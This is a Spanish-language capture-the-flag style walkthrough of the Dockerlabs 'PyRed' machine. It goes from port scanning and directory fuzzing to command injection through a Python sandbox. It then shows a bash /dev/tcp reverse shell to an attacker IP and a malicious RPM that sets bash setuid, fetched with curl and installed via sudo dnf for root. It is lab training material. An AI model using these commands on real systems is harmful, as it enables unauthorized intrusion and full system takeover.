# Writeup de la Máquina PyRed de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```


Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. En este caso al ser solo un puerto no haria falta. 

```bash
extractPorts allPorts
```



Una vez recojido el puerto le lanzo un escaneo para sacar la versión y el servicio que esta corriendo en el puerto 5000. 

```bash
sudo nmap -p5000 -sCV 172.17.0.2 -oN targeted
```




En este caso veo que es un servicio Werkzeug, este permite crear/hostear aplicaciones web con python. Así que decido utilizar whatweb para ver si me saca alguna otra tecnología.

```bash
whatweb http://172.17.0.2:5000
```



El whatweb no reporta mucha información así que decido mirar la página en el navegador, en esta me encuentro lo que parece una página para practicar python.



Vista la página decido hacer fuzzing a la web para ver si tiene algún subdirectorio, esto lo hago con la herramienta gobuster.

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2:5000 -x html,php,js
```



Gobuster reporta una carpeta "/console", así que decido mirar a ver que contiene. Esta contiene una consola para ejecutar python pero pide un pin para utilizarla.



Al ver que /console esta protegida intento ver si puedo ejecutar comandos de sistema en el servidor en la sandbox para aprender python. En efecto si importo la biblioteca "os" me permite ejecutar comandos dentro del sistema.





Sabiendo esto miro el archivo "/etc/passwd" para recoger los usuarios del sistema. Dentro de este veo al usuario primpi.





Viendo que se puede ejecutar comandos en el servidor decido realizar una reverse shell a mi máquina al puerto 443.

```bash
nc -lvp 443
```


Este comando en la webshell urlencodeado, ya que sino no funciona.

```python
import os
cwd = os.system("bash -i >& /dev/tcp/192.168.13.142/443 0>&1")
```


Una vez ejecutada la reverse shell consigo acceso al servidor. Como el usuario primpi.



Ya dentro ejecuto sudo -l para listar binarios que pueda ejecutar como superusuario. Me encuentro que puedo ejecutar como sudo el comando dnf, que para los sistemas fedora permiten instalar paquetes.

```bash
sudo -l
```


Para realizar esta escalada de privilegios hay que crear un paquete .rpm malicioso en nuesto sistema. Primeramente hay que instalar unas dependencias para crearlo.

Para instalar las dependencias voy a la carpeta /opt y nos clonaremos el siguiente repositorio.

```bash
cd /opt
sudo git clone https://github.com/jordansissel/fpm.git
```


Una vez teniendo esto compruebo si tenemos instalado rpm en nuestro sistema.

```bash
sudo apt install rpm
```



Teniendo las dependencias instaladas creo el paquete .rpm.

```bash
TF=$(mktemp -d)
echo 'chmod 4755 /usr/bin/bash' > $TF/x2.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x2.sh $TF
```


Una vez tengo el paquete creo con python un servidor web para poder descargar este paquete en la máquina víctima. Y este lo descargo en la víctima con la herramienta curl.

```bash
python -m http.server 80
```

```bash
curl -O http://192.168.13.130/x-1.0-1.noarch.rpm
```


Ya descargado instalo el paquete con dnf utilizandolo con sudo.

```bash
sudo dnf install -y x-1.0-1.noarch.rpm
```


Por último ya instalado el paquete ejecuto la bash con privilegios para escalar y convertirme en root.

```bash
/bin/bash -p
```

